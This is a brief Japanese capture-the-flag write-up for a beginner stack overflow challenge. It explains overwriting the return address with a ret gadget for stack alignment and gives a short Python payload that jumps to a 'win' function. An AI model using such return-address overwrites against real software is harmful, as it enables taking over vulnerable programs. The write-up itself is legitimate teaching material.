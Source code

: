 # Beginner's Stack - Writeup
Writeup Author: ptr-yudai

## Overview
Stack Overflowがある。

## Plan
リターンアドレスを書き換える。
RSPをalignするためにret gadgetを1つ入れる。

## Exploit
次のようなデータを送れば良い。
```python
payload  = b'A' * 0x28
payload += p64(rop_ret)
payload += p64(elf.symbol('win'))
```
